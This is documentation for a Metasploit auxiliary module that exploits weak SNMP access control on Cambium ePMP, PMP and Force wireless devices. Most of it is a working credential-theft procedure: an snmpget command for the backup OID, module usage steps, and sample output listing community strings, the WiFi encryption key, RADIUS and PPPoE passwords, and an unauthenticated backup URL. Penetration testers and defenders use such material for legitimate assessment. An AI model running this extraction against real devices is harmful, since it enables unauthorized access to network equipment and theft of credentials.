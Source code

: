 Cambium devices (ePMP, PMP, Force, others) can be administered using SNMP. The device configuration contains IP addresses, keys, and passwords, amongst other information. This module uses SNMP to extract Cambium ePMP device configuration. On certain software versions, specific device configuration values can be accessed using SNMP RO string, even though only SNMP RW string should be able to access them, according to MIB documentation.

The module also triggers full configuration backup, and retrieves the backup url. The configuration file can then be downloaded without authentication. The module has been tested primarily on Cambium ePMP current version (3.2.x, as of today), PMP, and Force units.

Note: If the backup url is not retrieved, it is recommended to increase the TIMEOUT and reduce the THREADS. Backup url can also be retrieved by quering the OID as follows:

```
snmpget -v2c -c public 1.3.3.7 1.3.6.1.4.1.17713.21.6.4.13.0

```

## Verification Steps

1. Do: ```use auxiliary/scanner/snmp/epmp_snmp_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/snmp/epmp_snmp_loot
msf auxiliary(epmp_snmp_loot) > set rhosts 1.3.3.7
msf auxiliary(epmp_snmp_loot) > set COMMUNITY private
msf auxiliary(epmp_snmp_loot) > run

msf auxiliary(epmp_snmp-final) > run

[*] Fetching System Information...

[+] 1.3.3.7
[+] SNMP System Name: Cambium
[+] SNMP System Description: Cambium
[+] Device UpTime: 0021:08:36:45
[+] U-boot version: U-Boot 9350_PX 1.1.4.e (Feb 24 2016 - 20:14:38) 

[*] Fetching SNMP Information...

[+] SNMP read-only community name: public
[+] SNMP read-write community name: private
[+] SNMP Trap Community: cambiumtrap
[+] SNMP Trap Server IP Address: Null 

[*] Fetching WIFI Information...

[+] Wireless Interface SSID: SSID
[+] Wireless Interface Encryption Key: secretkey
[+] Wireless Interface Encryption (1 - Open mode, 2 - wpa2 mode, 3 - EAP-TTLS): 2 

[*] Fetching WIFI Radius Information...

[+] RADIUS server info:
[+] RADIUS server port: Null
[+] RADIUS server secret: Null
[+] Wireless Radius Username: cambium-station
[+] Wireless Radius Password: cambium 

[*] Fetching Network PPPoE Information...

[+] Network PPPoE Service Name: temp
[+] Network PPPoE Username: username
[+] Network PPPoE Password: password

[+] Cambium ePMP loot saved at /root/.msf4/loot/20000000000003_moduletest_1.3.3.7_cambium_snmp_loot_838642.txt
[+] Configuration backed-up for direct download at: http://1.3.3.7/dl/3.2.2_00000000000001.json
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
